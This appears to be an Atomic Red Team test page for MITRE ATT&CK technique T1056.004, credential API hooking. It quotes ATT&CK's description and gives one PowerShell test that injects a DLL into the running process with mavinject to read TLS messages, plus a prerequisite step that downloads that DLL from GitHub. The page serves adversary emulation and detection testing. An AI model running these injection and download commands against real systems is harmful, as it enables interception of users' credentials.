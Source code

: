 # T1056.004 - Credential API Hooking
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1056.004)
<blockquote>Adversaries may hook into Windows application programming interface (API) functions to collect user credentials. Malicious hooking mechanisms may capture API calls that include parameters that reveal user authentication credentials.(Citation: Microsoft TrojanSpy:Win32/Ursnif.gen!I Sept 2017) Unlike [Keylogging](https://attack.mitre.org/techniques/T1056/001),  this technique focuses specifically on API functions that include parameters that reveal user credentials. Hooking involves redirecting calls to these functions and can be implemented via:

* **Hooks procedures**, which intercept and execute designated code in response to events such as messages, keystrokes, and mouse inputs.(Citation: Microsoft Hook Overview)(Citation: Endgame Process Injection July 2017)
* **Import address table (IAT) hooking**, which use modifications to a process’s IAT, where pointers to imported API functions are stored.(Citation: Endgame Process Injection July 2017)(Citation: Adlice Software IAT Hooks Oct 2014)(Citation: MWRInfoSecurity Dynamic Hooking 2015)
* **Inline hooking**, which overwrites the first bytes in an API function to redirect code flow.(Citation: Endgame Process Injection July 2017)(Citation: HighTech Bridge Inline Hooking Sept 2011)(Citation: MWRInfoSecurity Dynamic Hooking 2015)
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Hook PowerShell TLS Encrypt/Decrypt Messages](#atomic-test-1---hook-powershell-tls-encryptdecrypt-messages)


<br/>

## Atomic Test #1 - Hook PowerShell TLS Encrypt/Decrypt Messages
Hooks functions in PowerShell to read TLS Communications

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | Dll To Inject | Path | PathToAtomicsFolder&#92;T1056.004&#92;bin&#92;T1056.004x64.dll|
| server_name | TLS Server To Test Get Request | Url | https://www.example.com|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
mavinject $pid /INJECTRUNNING #{file_name}
curl #{server_name}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1056.004x64.dll must exist on disk at specified location (#{file_name})
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/theclintox/atomic-red-team/raw/master/atomics/T1056.004/bin/T1056.004x64.dll" -OutFile "#{file_name}"
```




<br/>

